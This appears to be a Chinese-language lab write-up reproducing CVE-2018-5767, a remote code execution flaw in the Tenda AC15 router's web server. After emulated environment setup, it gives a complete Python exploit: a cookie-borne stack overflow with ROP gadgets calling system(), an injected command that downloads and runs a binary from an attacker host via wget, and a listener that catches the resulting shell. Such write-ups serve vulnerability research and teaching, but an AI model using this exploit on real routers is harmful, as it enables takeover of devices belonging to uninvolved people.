 # Tenda AC15 远程代码执行漏洞（CVE-2018-5767）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.1.16_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf '
cmd += b'&& chmod 777 /msf '
cmd += b'&& /msf'

assert(len(cmd) < 255)

libc_base = 0x76df3000

system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'A'*(444) + b'.gif' + p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/execCommand"
cookie = {"Cookie": 'password='+payload.decode('latin1')}

def attack():
    try:
        requests.get(url, cookies=cookie)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://fidusinfosec.com/remote-code-execution-cve-2018-5767/
- https://www.freebuf.com/articles/wireless/166869.html
- https://wzt.ac.cn/2019/03/19/CVE-2018-5767/
- https://www.anquanke.com/post/id/204326
